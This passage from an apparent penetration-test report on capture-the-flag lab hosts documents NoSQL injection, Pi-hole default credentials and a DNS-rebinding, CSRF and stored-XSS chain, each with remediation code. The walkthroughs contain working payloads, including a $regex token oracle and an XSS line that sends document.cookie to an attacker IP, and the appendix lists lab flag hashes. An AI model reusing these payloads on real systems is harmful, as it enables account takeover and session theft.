3. **Token-Based Reset:** Implement secure password reset mechanics by sending a time-limited, cryptographically secure single-use reset token/link instead of emailing newly generated plaintext passwords.
4. **Log Reset Requests:** Maintain centralized logging for password-reset events to alert on potential abuse, rapid requests, or unexpected SMTP response behaviors.
5. **Implement Rate Limiting:** Enforce strict rate limits on the password reset endpoint per IP address and target account to mitigate automated or brute-force attempts.


### NoSQL Injection in /api/validateToken www.vitamedix.htb {#aaa9d649-31b9-4592-992d-51182c427f73}

#### CWE

CWE-943

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:L/VI:H/VA:N/SC:N/SI:N/SA:N (8.8 - High)

#### Affected Component(s)

* http://www.vitamedix.htb/api/validateToken

#### External References


#### Description & Cause

The `validateToken` function in `Vitamedix-master/src/database.js:112-129` is vulnerable to NoSQL injection. It builds a CouchDB Mango query using the attacker-controlled token value from `req.body` without validation, escaping, or parameterization. Because CouchDB Mango selectors accept query operators such as `$gt`, `$ne`, `$regex`, and `$exists`, an attacker can supply a NoSQL operator object instead of a literal token string. This changes the query semantics and forces a match against token documents that should not match.

### Cause

* Unsanitized user input is inserted directly into the NoSQL selector: JavaScript
  ```
  const options = {
    'selector': {
      'token': token   // <- user-controlled
    }
  }
  ```
* There is no allowlist, type check, or prepared-statement-style binding for the token.
* The same vulnerable `validateToken` sink is reused by `POST /api/register`, so the bypass affects the account-registration flow.


#### Security Impact

* **Token leak / enumeration:** The boolean response (true / 401 false) acts as an oracle. An attacker can send payloads like: JSON
  ```
  {"token": {"$regex": "^a"}}
  ```
  and iterate over characters to enumerate valid registration tokens stored in CouchDB.
* **Unauthorized account creation:** Because `/api/register` calls `db.validateToken(token)`, sending a universally-matching operator lets the registration succeed without knowing any real token: JSON
  ```
  {"token": "<token", "username": "attacker", "password": "password123"}
  ```
  This creates an authenticated user account, bypassing the intended token-gating control.

#### Detailed Walkthrough

### Step 1 — Generate a registration token

The application exposes an unauthenticated endpoint that inserts a random 32-character hex token into the database:


```http
GET /api/generateToken HTTP/1.1
Host: www.vitamedix.htb
```

Response:


```json
{"message":"Token Generated Successfully!"}
```

Note: An attacker does not strictly need to call this endpoint; as long as at least one token exists in the database, the boolean oracle below can be used to recover it.

### Step 2 — Confirm the NoSQL injection oracle

Send a POST request to `/api/validateToken` with a CouchDB `$regex` operator instead of a literal token. Test whether the first character of the stored token is 0:


```http
POST /api/validateToken HTTP/1.1
Host: www.vitamedix.htb
Content-Type: application/json

{"token":{"$regex":"^0.*"}}
```

If the first character is 0, the response is:


```json
{"message":"true"}
```

{width="auto"}


If the first character is anything else (e.g., 1), the response is:


```http
HTTP/1.1 401 Unauthorized
{"message":"false"}
```


{width="auto"}

This confirms that:

* The token field is injected directly into a Mango selector.
* The endpoint returns a boolean oracle that leaks token characters one at a time.

### Step 3 — Dump the full token

Because the token is generated with `crypto.randomBytes(16).toString('hex')`, it is exactly 32 hexadecimal characters (`[0-9a-f]`). Using the boolean oracle from Step 2, iterate over each position and character set until the full token is recovered.

Example oracle payloads for the first three characters:


```json
{"token":{"$regex":"^0.*"}}      -> true
{"token":{"$regex":"^01.*"}}     -> true
{"token":{"$regex":"^011.*"}}    -> false
{"token":{"$regex":"^01f.*"}}    -> true
...
```

After 32 successful position checks, the recovered token is, for example:


```
01f68f66cd3b7eed3a446a7cfd33b342
```

### Step 4 — Register a user with the recovered token

Submit the recovered token to `/api/register`:


```http
POST /api/register HTTP/1.1
Host: www.vitamedix.htb
Content-Type: application/json

{"username":"asd","password":"asd","token":"01f68f66cd3b7eed3a446a7cfd33b342"}
```


```json
{"message":"User registered!"}
```


### Step 5 — Verify token reuse

Submit the same token again with a different username:


```http
POST /api/register HTTP/1.1
Host: www.vitamedix.htb
Content-Type: application/json

{"username":"asd2","password":"asd2","token":"01f68f66cd3b7eed3a446a7cfd33b342"}
```

Response:


```json
{"message":"User registered!"}
```

{width="auto"}


script to dumb token 

[www.vitamedix.htb-validate-token-NOSQLI.py](exploits/www.vitamedix.htb-validate-token-NOSQLI.py)


#### Patching and Remediation

The token value from the request body is placed directly into the CouchDB Mango selector. CouchDB interprets an object value (e.g., `{"$regex":"^0.*"}`) as a query operator, allowing an attacker to change the query logic. The fix is to enforce that the token is a literal string matching the expected format before it ever reaches the database query.

The application generates tokens with:


```javascript
crypto.randomBytes(16).toString('hex')
```

This always produces exactly 32 lowercase hexadecimal characters. We can therefore reject anything that does not match that strict pattern.

### Fixed code

**`Vitamedix-master/vitamedix/vitamedix.htb/src/database.js`**


```javascript
async validateToken(token) {
  return new Promise(async (resolve, reject) => {
    try {
      // 1. Enforce type: token must be a plain string
      if (typeof token !== 'string') {
        return reject(new Error('Invalid token format'));
      }

      // 2. Enforce format: exactly 32 lowercase hex characters
      const TOKEN_REGEX = /^[a-f0-9]{32}$/;
      if (!TOKEN_REGEX.test(token)) {
        return reject(new Error('Invalid token format'));
      }

      // 3. Safe query: token is now guaranteed to be a literal string
      const options = {
        'selector': {
          'token': token
        }
      };

      const resp = await this.registerTokens.find(options);

      if (resp.docs.length > 0) {
        return resolve();
      }

      return reject(new Error('Invalid token'));
    } catch (e) {
      return reject(e);
    }
  });
}
```

### Additional hardening recommendations

1. **Single-use tokens**

   After a successful `/api/register`, delete the consumed token from the `registertokens` database so it cannot be reused.

2. **Remove or protect the validation oracle**

   The `/api/validateToken` endpoint itself is not required for registration and provides a boolean oracle. Consider removing it from the public API, or at least rate-limiting it.

3. **Rate limiting**

   Apply rate limiting to `/api/register` and `/api/validateToken` to slow down token enumeration attempts.

4. **Consistent input validation at the route layer**

   Add Joi validation to `/api/validateToken` so malformed requests are rejected before reaching the database helper:

   

   ```javascript
   // In helpers/ValidationSchema.js
   token: Joi.object({
     token: Joi.string().hex().length(32).required()
   })
   ```


### DNS.vitamedix:8006 Pi-hole password leak (WEBPASSWORD: pihole) {#0f92f352-828c-4b46-b853-6592beec8b3d}

#### CWE


#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N (9.3 - Critical)

#### Affected Component(s)

* http://dns.vitamedix.htb:8006/admin/login.php

#### External References


#### Description & Cause

The DNS server component is deployed as a Pi-hole container via DNS-Server-master/dns-server/docker-compose.yml. The Pi-hole web admin password is explicitly set to the default/weak value pihole through the WEBPASSWORD environment variable:

YAML

```
     environment:
       WEBPASSWORD: "pihole"
```

This value is a well-known default password for Pi-hole. The web administration interface is exposed on port 8006, and no additional authentication hardening is applied. An unauthenticated remote attacker can log in to the Pi-hole admin panel using the username admin and password pihole, gaining full administrative control over the DNS service.


#### Security Impact

Once authenticated to Pi-hole, the attacker can:

* **Confidentiality:** Browse DNS query logs, exposing every domain requested by internal users.
* **Integrity:** Add malicious blocklists, whitelist phishing domains, or redirect internal traffic via DNS manipulation.
* **Availability:** Disable DNS resolution entirely, causing a network-wide denial of service.


#### Detailed Walkthrough

1. Browse to <http://dns.vitamedix.htb:8006/admin/login.php>.

{width="auto"}

2. Enter the default Pi-hole password: pihole.
3. Submit the form — the application logs you into the admin dashboard at /admin/.
4. 
{width="auto"}

5. From the dashboard, you can view DNS query logs, modify blocklists/whitelists, and control DNS resolution.
{width="auto"}


#### Patching and Remediation


1. Remove the hardcoded/default WEBPASSWORD value and generate a strong, unique password during deployment.


2. Do not expose the Pi-hole web admin interface to untrusted networks; restrict it to an internal management segment or VPN.


3. Rotate the Pi-hole admin password and enable any available multi-factor or access-control features.


4. Consider mounting the password from a secrets manager or environment-specific .env file rather than version-controlled YAML.


### DNS rebind => CSRF => Stored Cross-Site Scripting (XSS) => Admin cookie theft {#edb020c8-9ce8-4b17-9b9e-5f074ae0f552}

#### CWE

CWE-79

#### CVSS 4.0

CVSS:4.0/AV:N/AC:H/AT:N/PR:N/UI:A/VC:H/VI:H/VA:N/SC:H/SI:H/SA:N (8.7 - High)

#### Affected Component(s)


#### External References

* https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

#### Description & Cause

The application accepts external URLs through POST /api/documentSubmit and passes them to an internal headless browser (bot.checkMessage). The URL whitelist in src/helpers/URLHelper.js resolves the hostname once and only blocks exact loopback addresses (127.0.0.1, ::1, etc.); it does not pin the resolved IP for the actual HTTP request. This allows a DNS-rebinding attack.

Because the DNS server (Pi-hole) is reachable with the default password pihole, an attacker can first hijack DNS resolution for [www.vitamedix.htb](http://www.vitamedix.htb) and force it to alternate between a public IP and an attacker-controlled IP. A submitted document URL such as <http://www.vitamedix.htb:4444/redirect.php> therefore passes the application’s URL check while the browser bot ultimately fetches content from the attacker.

The attacker’s redirect.php performs a cross-origin POST to /api/settings in the bot’s authenticated session. The settings endpoint has no CSRF protection (bodyParser.json({ type: () => true }) accepts any content type, and the session cookie lacks SameSite), so the request succeeds and updates full\_name to a JavaScript payload. The bot is then redirected to /settings, where {{ user.full\_name | safe }} renders the value without escaping and the stored XSS executes. The payload exfiltrates the bot’s session cookie to the attacker’s listener.

### Vulnerable code locations

* src/helpers/URLHelper.js — resolves and checks the URL only once; no DNS pinning.
* src/routes/index.js:80-88 — /api/documentSubmit forwards user URLs to bot.checkMessage.
* src/routes/index.js:116-126 — POST /api/settings has no CSRF protection.
* src/views/settings.html:26 and dashboard.html:29 — render user.full\_name with | safe.
* DNS-Server-master/dns-server/docker-compose.yml — Pi-hole admin password hardcoded to pihole.


#### Security Impact

The final impact is full compromise of the bot’s session. Because the bot runs in an administrative/doctor context, stealing its cookie gives the attacker authenticated access to:

* the doctor dashboard and PDF-generation endpoints,
* patient documents submitted through /api/documentSubmit,
* internal SSRF primitives via /api/pdfGeneration


#### Detailed Walkthrough

### Prerequisites

* Attacker machine IP: <Attacker_IP>
* Pi-hole admin access already obtained via password `pihole`
* A valid user session on [www.vitamedix.htb](http://www.vitamedix.htb) to submit a document URL

### Step 1 — Hijack DNS resolution in Pi-hole

1. Log in to Pi-hole at `[http://dns.vitamedix.htb:8006/admin/login.php](http://dns.vitamedix.htb:8006/admin/login.php)` with password `pihole`.

2. Navigate to Settings → DNS:

   

   ```
   http://dns.vitamedix.htb:8006/admin/settings.php?tab=dns
   ```

3. Under Upstream DNS Servers → Custom 1 (IPv4), enter the attacker IP:

   

   ```
   <Attacker_IP>
   ```

4. Remove or disable all other upstream DNS servers.

5. Click Save.

From this point, all DNS queries routed through Pi-hole will be answered by the attacker machine, allowing controlled resolution of [www.vitamedix.htb](http://www.vitamedix.htb).

### Step 2 — Start the DNS rebinder

On the attacker machine, run:


```bash
sudo python3 dnsrebinder.py \
  --domain www.vitamedix.htb \
  --rebind <Attacker_IP> \
  --ip <Attacker_IP> \
  --counter 1 \
  --tcp --udp
```

**Behavior:**

* The  DNS query for [www.vitamedix.htb](http://www.vitamedix.htb) resolves to  <Attacker_IP> which leads to redirect.php

### Step 3 — Prepare attacker servers

#### PHP server on port 4444

Create `redirect.php` in the web root:

[www.vitamedix.htb-XSS-redirect.php](exploits/www.vitamedix.htb-XSS-redirect.php)

Start the PHP server:


```bash
php -S 0.0.0.0:4444 -t .
```

#### Cookie listener on port 4445

Start a Python listener:


```bash
python3 -m http.server 4445
```

### Step 4 — Submit the malicious document URL

1. Log in to `[http://www.vitamedix.htb](http://www.vitamedix.htb)`.

2. Go to the dashboard and open the Submit documents dialog.

3. Enter the URL:

   

   ```
   http://www.vitamedix.htb:4444/redirect.php
   ```

4. Click Submit.

The application validates the URL: `URLHelper.validate` resolves [www.vitamedix.htb](http://www.vitamedix.htb) to 1.1.1.1, which is not blacklisted, so the URL is accepted. The internal bot then visits the same URL.

By that time, DNS has rebound to 10.10.17.8, so the bot loads `redirect.php` from the attacker server.

### Step 5 — Payload execution in the bot’s browser

The bot loads `redirect.php`, which executes JavaScript in the bot’s authenticated browser context:

1. The script sends a POST request to `[http://www.vitamedix.htb/api/settings](http://www.vitamedix.htb/api/settings)` with the body:

   

   ```JSON
   {
     "full_name": "<\\/option><\\/select><script>fetch(\'http:\/\/10.10.17.8:4445\/?d=\'+btoa(unescape(encodeURIComponent(document.cookie))));<\\/script><select><option>",
     "address": "x"
   }
   ```

   Because the session cookie is scoped to [www.vitamedix.htb](http://www.vitamedix.htb) and lacks SameSite protection, the browser sends the cookie with this cross-origin request. The settings update succeeds.

2. After the update, the script redirects the bot to:

   

   ```
   http://www.vitamedix.htb/settings
   ```
3. The settings page renders the attacker-controlled full\_name through the | safe filter:


HTML

```
{{ user.full_name | safe }}
```

The injected `` fires and exfiltrates the bot’s document.cookie to the attacker listener:


```
http://10.10.17.8:4445/?d=.....J...
```


{width="auto"}

### Step 6 — Capture the admin cookie

On the attacker machine, the Python listener receives a request similar to:


HTTP

```
GET /?d=c2Vzx2lvb HTTP/1.1
Host: 10.10.17.8:4445
```

{width="auto"}

Save the session cookie value. Use it in a browser or with a tool like curl to authenticate as the bot/admin:

Bash

```
curl -H "Cookie: session=eyJ..." http://www.vitamedix.htb/dashboard
```


#### Patching and Remediation

The chain relies on four weak points. Patch all of them; removing only one may still leave another path open.

***

## 1. Pi-hole default credentials

Change the WEBPASSWORD in DNS-Server-master/dns-server/docker-compose.yml to a strong, randomly generated secret injected at deploy time, and do not expose the admin UI publicly.

```yaml
  environment:
    WEBPASSWORD: ${PIHOLE_PASSWORD}
```

***

## 2. Pin DNS resolution for bot / PDF fetches

The bot in /api/documentSubmit currently passes the user URL straight to bot.checkMessage(url) with no IP pinning. Reuse the same pinning logic for both the PDF helper and the document-review bot.

**src/helpers/URLHelper.js — resolve, pin, and validate**

```javascript
  const dns = require('dns');
  const url = require('url');
  const { promisify } = require('util');
  const dnsLookup = promisify(dns.lookup);

  const BLACKLIST = ['127.0.0.1', '::1', '::ffff:127.0.0.1', '0.0.0.0'];

  async function resolveAndPin(targetUrl) {
      const parsed = new URL(targetUrl);

      if (!['http:', 'https:'].includes(parsed.protocol)) {
          throw new Error('Invalid protocol');
      }

      // Resolve once and pin the IP
      const { address } = await dnsLookup(parsed.hostname);

      if (BLACKLIST.includes(address)) {
          throw new Error('URL not allowed');
      }

      // Rebuild URL using the pinned IP so no second DNS lookup happens
      const pinnedUrl = `${parsed.protocol}//${address}${parsed.port ? ':' + parsed.port : ''}${parsed.pathname}${parsed.search}`;

      return {
          url: pinnedUrl,
          headers: { Host: parsed.hostname },
          originalHostname: parsed.hostname
      };
  }

  module.exports = { resolveAndPin };
```

**src/helpers/PDFHelper.js — use the pinned URL**

```javascript
  const fs = require('fs');
  const axios = require('axios');
  const html_to_pdf = require('html-pdf-node');
  const { resolveAndPin } = require('./URLHelper');

  async function generatePDFFromURL(targetUrl) {
      const { url, headers } = await resolveAndPin(targetUrl);

      const response = await axios.get(url, {
          headers,
          timeout: 5000,
          maxRedirects: 0
      });

      const htmlContent = response.data;
      const file = { content: htmlContent };

      const pdfBuffer = await html_to_pdf.generatePdf(file, { format: 'Letter' });
      fs.writeFileSync('/tmp/result.pdf', pdfBuffer);

      return true;
  }

  module.exports = { generatePDFFromURL };
```

**src/routes/index.js — validate document URLs before the bot visits them**

```javascript
  const { resolveAndPin } = require('../helpers/URLHelper');

  router.post('/api/documentSubmit', [AuthMiddleware, JOImiddleware(schemas.url)], async (req, res) => {
      const { url } = req.body;

      try {
          await resolveAndPin(url);   // rejects loopback / invalid URLs
      } catch (e) {
          return res.status(400).send(response('URL not allowed!'));
      }

      await db.addDocument(req.user.username, url);
      bot.checkMessage(url);

      return res.send(response('Document submitted!'));
  });
```

Also sandbox the bot. The bot should run in a separate cookie jar / browser profile with no admin session, so even if it loads attacker content it cannot modify admin settings.

***

## 3. Fix stored XSS in profile rendering

Remove the | safe filter everywhere user.full\_name is rendered. Nunjucks autoescape: true will then encode the value safely.

**src/views/dashboard.html**

```html
  <!-- before -->
  <option value="{{user.full_name}}">{{ user.full_name | safe }}</option>

  <!-- after -->
  <option value="{{user.full_name}}">{{ user.full_name }}</option>
```

**src/views/settings.html**

```html
  <!-- before -->
  <option value="{{ user.full_name | safe }}">{{ user.full_name | safe }}</option>
  <input value="{{ user.full_name }}" ...>

  <!-- after -->
  <option value="{{ user.full_name }}">{{ user.full_name }}</option>
  <input value="{{ user.full_name }}" ...>
```

**src/views/pdfgen.html**

```html
  <!-- before -->
  <option value="{{ user.full_name | safe }}">{{ user.full_name | safe }}</option>

  <!-- after -->
  <option value="{{ user.full_name }}">{{ user.full_name }}</option>
```

***

## 4. Add CSRF protection to state-changing endpoints

Set the session cookie with SameSite=Strict, HttpOnly, and Secure, and validate an anti-CSRF token on POST /api/settings.

**src/routes/index.js — secure cookie at login**

```javascript
  let token = JWTHelper.sign({ username: username, role: data.role });
  res.cookie('session', token, {
      maxAge: 3600000,
      httpOnly: true,
      sameSite: 'strict',
      secure: true
  });
```

**CSRF token generation and validation**

Add a middleware that compares a token from the request body/header against the value stored server-side for the session:

```javascript
  function csrfProtection(req, res, next) {
      const submitted = req.headers['x-csrf-token'] || req.body._csrf;
      if (!submitted || submitted !== req.user.csrfToken) {
          return res.status(403).send({ message: 'Invalid CSRF token' });
      }
      next();
  }
```

Include the token in the JWT payload when signing, and require it on POST /api/settings:

```javascript
  router.post('/api/settings', [AuthMiddleware, csrfProtection], async (req, res) => {
      const { full_name, address } = req.body;
      // ...
  });
```

***

## 5. Harden body-parser

Remove the type: () => true override so JSON endpoints only accept application/json:

```javascript
  app.use(bodyParser.json());
```

This prevents simple cross-origin text/plain fetch CSRF against JSON endpoints.

***


## Appendix {#appendix}

### Finding Severities {#finding-severities}

Each finding has been assigned a severity rating of critical, high, medium, low or info. The rating is based off of an assessment of the priority with which each finding should be viewed and the potential impact each has on the confidentiality, integrity, and availability of data.

| Rating   | CVSS Score Range |
| -------- | ---------------- | 
| Critical | 9.0 – 10.0       |
| High     | 7.0 – 8.9        |
| Medium   | 4.0 – 6.9        |
| Low      | 0.1 – 3.9        |
| Info     | 0.0              |


### Flags Discovered {#flags-discovered}

TODO: fill in any identified flags. 

| Flag # | Application           | Flag Value | Method Used           |
| ------ | --------------------- | ---------- | --------------------- |
| 1.  456113d7a6b2c73cb8de7f3fbde95580   | **RoyalFlush - Auth** | **HASH**   | **JWT FORGERY** |
| 2.  ddf1df82dea9ce0d6ab3a03aa80cbdac   | **RoyalFlush - RCE**  |     **HASH**        |       **Command Injection**                |
| 3.   39d18b5b75ce0bbba31b19630812e1b7  | **SecureData - Auth** |       **HASH**      |        **RACE CONDITION**               |
| 4.     | **SecureData - RCE**  |            |                       |
| 5.  d26a4b37437173ac7c4dc2c708b6323f   | **VitaMedix - Auth**  |      **HASH**       |         **CRLF EMAIL HEADER INJECTION**              |
| 6.  7c6ada9cb7aa60c7740bcb1dde7496bf   | **VitaMedix - RCE**   |       **HASH**      |     **Command Injection**                  |


### Exploits {#exploits}

#### Royal Flush
[www.royalflush.htb-forgot-SQLI.py](exploits/www.royalflush.htb-forgot-SQLI.py)

[www.royalflush.htb-JWT-Forgery.py](exploits/www.royalflush.htb-JWT-Forgery.py)

[vault.royalflush.htb-SecondaryEmail-SQLI-Web-Config-dump.py](exploits/vault.royalflush.htb-SecondaryEmail-SQLI-Web-Config-dump.py)

[vault.royalflush.htb-Deserialization-Payload.py](exploits/vault.royalflush.htb-Deserialization-Payload.py)

---
#### Vitamedix

[ldap.vitamedix.htb-usernames.py](exploits/ldap.vitamedix.htb-usernames.py)

[storage.vitamedix.htb-SMTP-Creds-LEAK.py](exploits/storage.vitamedix.htb-SMTP-Creds-LEAK.py)


[www.vitamedix.htb-validate-token-NOSQLI.py](exploits/www.vitamedix.htb-validate-token-NOSQLI.py)

[www.vitamedix.htb-XSS-redirect.php](exploits/www.vitamedix.htb-XSS-redirect.php)


